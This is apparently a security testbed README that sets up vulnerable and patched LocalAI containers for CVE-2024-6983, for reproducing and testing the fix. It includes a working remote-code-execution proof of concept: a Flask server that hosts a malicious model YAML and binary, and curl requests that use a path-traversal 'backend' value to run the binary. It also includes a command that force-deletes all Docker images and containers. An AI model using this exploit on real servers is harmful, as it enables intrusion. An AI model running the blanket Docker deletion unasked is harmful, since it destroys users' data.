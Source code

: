 # Mudler/LocalAI CVE-2024-6983

This directory contains the deployment config for LocalAI instances vulnerable and fixed to CVE-2024-6983. LocalAI versions below 2.19.4 are vulnerable to that remote code execution vulnerability.

## How to Trigger the Vulnerability?

To trigger the vulnerability, you can use the following two curl commands and the provided Python Script. You may need to install Flask and PyInstaller via pip. Since this vulnerability requires hosting a YAML and an ELF file, the provided Python script will host these files. In a vulnerable environment, after the second curl request, you can see the created file under the /tmp/ directory.

Python Script:

```py
from flask import Flask,send_file,request
import tempfile
import PyInstaller.__main__
import os

app=Flask(__name__)

CONF="""name: "life"

download_files:
  - filename: "app.bin"
    uri: "{0}app.bin"
"""

# Builds exploit code
def build():
    CODE = 'open("/tmp/test.txt","a").write("1337")' # Python code we want to run
    appname="app.bin"
    if os.path.isfile(appname):
        return appname
    with tempfile.NamedTemporaryFile(delete=False) as fp:
        fp.write(CODE.encode())
        fp.close()
        PyInstaller.__main__.run(["--onefile","--clean","--workpath","/tmp/build/","--specpath","/tmp","--distpath",".","-n",appname,fp.name])
    return appname

# Serve model.yaml file
@app.get("/model.yaml")
def model():
    return CONF.format(request.root_url)

# Serve app.bin file
@app.get("/app.bin")
def files():
    return send_file(build())

# Start the server
app.run("0.0.0.0",8000)
```

Curl Requests:

```sh
# Run above Python script first.
python server.py

# Upload the yaml and compiled Python file
curl http://localhost:8080/models/apply -X POST -H "Content-Type: application/json" -d '{"name":"life","config_url":"http://localhost:8000/model.yaml","id":""}'

# Trigger the uploaded app.bin file via the backend parameter.
curl http://localhost:8080/embeddings -X POST -H "Content-Type: application/json" -d '{"backend":"../../../../../../build/models/app.bin","model":"life","input":"hi"}'

# Validate the created file by checking the docker inside.
docker exec -it local-ai bash --> ls /tmp/
```

In case you cannot trigger the vulnerability, you might need to delete your existing container images because Docker might try to reuse them.

```
sudo docker rmi -f $(sudo docker images -aq)
sudo docker remove $(sudo docker ps -a -q)
```
## Fixed version
```sh
docker run -p 8080:8080 -e "DEBUG=true" --name local-ai --network host -ti localai/localai:v2.19.4-ffmpeg-core
```

The deployed service listens on `localhost:8080` after the docker completes its job.

## Vulnerable version
```
docker run -p 8080:8080 -e "DEBUG=true" --name local-ai --network host -ti localai/localai:v2.14.0-ffmpeg-core
```

The deployed service listens on `localhost:8080` after the docker completes its job.
